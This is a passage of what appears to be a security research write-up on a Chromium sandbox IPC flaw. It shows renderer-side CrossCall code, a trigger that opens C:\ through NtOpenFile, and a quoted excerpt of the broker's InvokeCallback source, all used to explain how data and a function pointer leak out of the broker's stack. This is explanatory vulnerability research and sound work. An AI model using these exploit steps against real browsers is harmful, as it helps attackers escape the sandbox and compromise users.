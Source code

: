But as this is renderer code, you can do whatever you want. Either call `CrossCall` (or make your own) or scan the shared memory.

```c
ResultCode code = CrossCall(ipc, IPC_NTOPENFILE_TAG, name, attributes,
                                desired_access_uint32, sharing, options_uint32,
                                &answer);
    if (SBOX_ALL_OK != code)
      break;

    status = answer.nt_status;

    if (!NT_SUCCESS(answer.nt_status)) // (renderer side) nt_status != NT_SUCCESS
      break;

    __try {
      *file = answer.handle; // here you would fetch the leaked data from the shared memory
      io_status->Status = answer.nt_status;
      io_status->Information = answer.extended[0].ulong_ptr;
    } __except(EXCEPTION_EXECUTE_HANDLER) {
      break;
}
```

The trigger would roughly look like this.

```c
RtlInitUnicodeString(&filename, L"\\??\\C:\\");
InitializeObjectAttributes(&obj_attr, &filename, OBJ_CASE_INSENSITIVE, NULL, NULL);
NtOpenFile(&file, FILE_WRITE_DATA, &obj_attr, &iostatusblock, 1, NULL);
```

**Getting a function pointer**<br>
We need to make sure that the stack contains something interesting. If you try to open the file `L"\\??\\C:\\secret\\canttouchme.txt"`, you would not get anything interesting. The return handle would actually be the number of characters of the file name (in this case, 0x1D).

Indeed, when receiving the signal for a crosscall, the broker would first execute the function `sandbox::SharedMemIPCServer::InvokeCallback`.

```c
bool SharedMemIPCServer::InvokeCallback(const ServerControl* service_context,
                                        void* ipc_buffer,
                                        CrossCallReturn* call_result) {
// [...]
  if (!GetArgs(params.get(), &ipc_params, args))
    return false;
// [...]
  if (handler) {
    switch (params->GetParamsCount()) {
// [...]
      case 7: {
        Dispatcher::Callback7 callback =
            reinterpret_cast<Dispatcher::Callback7>(callback_generic);
        if (!(handler->*callback)(&ipc_info, args[0], args[1], args[2], args[3],
                                  args[4], args[5], args[6]))
          break;
        error = false;
        break;
      }
// [...]
}
```

